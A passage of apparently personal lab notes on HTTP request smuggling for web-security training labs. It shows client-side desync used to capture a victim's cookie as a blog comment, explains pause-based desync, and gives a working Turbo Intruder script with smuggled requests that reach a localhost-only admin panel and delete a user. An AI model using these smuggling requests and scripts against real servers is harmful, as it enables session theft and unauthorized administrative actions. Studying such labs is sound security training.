- Identify that the server only use HTTP/1 by trying to change the request to HTTP/2 and got a stream close error
- The endpoint `/` ignores the CL header because when sending a `POST / HTTP/1.1` request with the CL value set to a large number and an empty body, the response comes back immediately

Now group this 2 requests and send them in group using single connection mode:

    POST / HTTP/1.1
    Host: 0a37000703f2bff38244386600f8001e.h1-web-security-academy.net
    Connection: keep-alive
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 0

    POST /en/post/comment HTTP/1.1
    Host: 0a37000703f2bff38244386600f8001e.h1-web-security-academy.net
    Cookie: session=Ki1OUL0PWNSPstkSBha0kyrJJFaIFnO9;
    Content-Length: 800
    Content-Type: application/x-www-form-urlencoded

    csrf=aZWOe0vSwtmozANjrR1kjf0U8lKqJfnc&postId=4&name=pu&email=haha%40gmail.com&website=http%3A%2F%2Faha.com&comment=

    GET /en HTTP/1.1
    Host: 0a37000703f2bff38244386600f8001e.h1-web-security-academy.net
    Connection: keep-alive

Notice the response:

    HTTP/1.1 302 Found
    Location: /en/post/comment/confirmation?postId=4
    X-Frame-Options: SAMEORIGIN
    Keep-Alive: timeout=10
    Content-Length: 0

    HTTP/1.1 400 Bad Request
    Content-Type: application/json; charset=utf-8
    X-Content-Type-Options: nosniff
    Connection: close
    Content-Length: 27

    {"error":"Invalid request"}

This means we have successfully smuggled the `POST /en/post/comment HTTP/1.1` request. Now at the exploit server, copy this to the body:

    

This will first make the a request to the vulnerable website containing the smuggled request. Then when a redirect happen, the CORS mode is violated and trigger the code inside our `catch` function. The server now is containing our smuggled request, when the request inside the `catch` function arrived at the server, it is appended to the comment parameter, therefore, the victim's request is posted as a comment on the blog page.
Retrieve the victim's cookie and access his account.
> **Note:** The script might won't work because of the CL header is to large which cause the server to time out and close the connection. If that happen, try lower the CL header value.

# Pause-based desync attacks
Servers are commonly configured with a read timeout. If they don't receive any more data for a certain amount of time, they treat the request as complete and issue a response, regardless of how many bytes they were told to expect. Pause-based desync vulnerabilities can occur when a server times out a request but leaves the connection open for reuse.

## Server-side pause-based desync
This is dependent on the following conditions:
- The front-end server must immediately forward each byte of the request to the back-end rather than waiting until it has received the full request.
- The front-end server must not (or can be encouraged not to) time out requests before the back-end server.
- The back-end server must leave the connection open for reuse following a read timeout.

To demonstrate how this technique works, let's walk through an example. The following is a standard CL.0 request smuggling probe:

    POST /example HTTP/1.1
    Host: vulnerable-website.com
    Connection: keep-alive
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 34

    GET /hopefully404 HTTP/1.1
    Foo: x

Consider what happens if we send the headers to a vulnerable website, but pause before sending the body.
1. The front-end forwards the headers to the back-end, then continues to wait for the remaining bytes promised by the `Content-Length` header.
2. After a while, the back-end times out and sends a response, even though it has only consumed part of the request. At this point, the front-end may or may not read in this response and forward it to us.
3. We finally send the body, which contains a basic request smuggling prefix in this case.
4. The front-end server treats this as a continuation of the initial request and forwards this to the back-end down the same connection.
5. The back-end server has already responded to the initial request, so assumes that these bytes are the start of another request.

### LAB: Server-side pause-based request smuggling
Found a redirect request `GET /resources HTTP/1.1` (without the redirect, there would be no gap between the requests, and the smuggling attack would not work. The server would handle both requests together, failing to process them separately). Use this script at Turbo Intruder to identify the server-side pause-based request smuggling vulnerability:

    def queueRequests(target, _):
        engine = RequestEngine(endpoint="https://0a6100130435171a83326e6e00af0010.web-security-academy.net:443",
                            concurrentConnections=1,
                            requestsPerConnection=100,
                            pipeline=False
                            )
        
        # attack request
        attack_request = """POST /resources HTTP/1.1
    Host: 0a6100130435171a83326e6e00af0010.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    Connection: keep-alive
    Content-Length: %s

    %s"""
    
        # smuggled request GET
        smuggled_request = """GET /hopefully404/ HTTP/1.1
    Host: 0a6100130435171a83326e6e00af0010.web-security-academy.net

    """
    
        # normal request
        normal_request = """GET / HTTP/1.1
    Host: 0a6100130435171a83326e6e00af0010.web-security-academy.net

    """
        engine.queue(attack_request, [len(smuggled_request), smuggled_request], pauseMarker=['\r\n\r\n'], pauseTime=61000)
        engine.queue(normal_request)
    
    
    def handleResponse(req, _):
        table.add(req)

After 61s, we got a response of `404 Not Found` which indicates the vulnerability. Change the smuggled request path to `/admin/` and restart the attack. Notice the response saying:

    Admin interface only available to local users

Change smuggled request `Host` header to `localhost` and restart the attack. This time we have successfully entered the admin interface and found the delete user endpoint. Change the smuggled request to (remember to add the cookie header found in the response):

    POST /admin/delete/ HTTP/1.1
    Host: localhost
    Cookie: session=siXpBIe68Z28SGbY6xgvPh4Pt0qVHPDl
    Content-Length: 53

    csrf=8xDdtqt7HC1P1Ah75XB4gyX4R7uxQjGF&username=carlos

After 61s, we successfully deleted user Carlos.